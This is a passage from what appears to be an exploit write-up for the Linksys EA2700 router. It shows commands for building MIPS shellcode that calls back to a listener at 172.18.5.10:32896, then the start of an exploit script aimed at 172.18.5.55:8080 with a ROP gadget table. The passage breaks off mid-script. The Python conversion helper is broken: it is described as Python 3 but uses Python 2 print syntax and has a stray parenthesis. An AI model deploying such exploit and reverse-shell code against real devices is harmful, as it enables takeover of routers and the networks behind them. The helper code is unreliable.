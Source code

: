 
# Compile It
Compiled and shellcode pulled out with these commands:

```
> as rs.s -o rs.o
> ld rs.o -o rs
> objcopy -O binary -j .text rs rs.bin
```

I then used a quick and dirty Python script to read `rs.bin` and convert it to a string I can paste directly into my exploit script. It's Python 3 for the record. 

```
with open('rs.bin', 'rb') as x:
	y = x.read()
	
a = []
for z in y:
	a.append('\\' + hex(z)[1:])
print ''.join(a))
```

# Exploit It
Here's the full Python script to exploit the EA2700 listening at 172.18.5.55:8080 with shellcode that will call back to 172.18.5.10:32896.

```
import socket
import struct

# -----------------------------------------------------------------------
# | Gadget Name | Gadget Offset  | Gadget Summary                       |
# -----------------------------------------------------------------------
# | rop1        | libwl_agent.so | move    $t9, $s1                     |
# |             | 0x14E8         | jalr    $t9                          |
# |             |                | li      $a2, 0xC                     |
# -----------------------------------------------------------------------
# | rop2        | libgcc_s.so    | move    $t9, $s0                     |
# |             | 0xD38C         | jalr    $t9 ; sub_CD0C               |
# |             |                | sw      $a2, 0x50($sp)               |
# -----------------------------------------------------------------------
# | rop3        | libuClibc.so   | addiu   $sp, -0x18                   |
# |             | 0x427A4        | addiu   $s0, $sp, 0xB8+var_98        |
# |             |                | lw      $a0, 0($s2)                  |
# |             |                | move    $a1, $s1                     |
# |             |                | move    $a2, $s4                     |
# |             |                | move    $t9, $s6                     |
# |             |                | jalr    $t9                          |
# |             |                | move    $a3, $s0                     |
# -----------------------------------------------------------------------
# | rop4        | libuClibc.so   | li      $a0, 0xE                     |
# |             | 0x494EC        | move    $t9, $s4                     |
# |             |                | jalr    $t9                          |
# |             |                | move    $a2, $zero                   |
# -----------------------------------------------------------------------
# | rop5        | libuClibc.so   | move    $t9, $s2                     |
# |             | 0x312E0        | jalr    $t9                          |
# |             |                | move    $a1, $v0                     |
# |             |                | lw      $gp, 0x10($sp)               |
# |             |                | la      $t9, strlen                  |
# |             |                | move    $t9, $s3                     |
# |             |                | jalr    $t9                          |
# |             |                | move    $a0, $s0                     |
```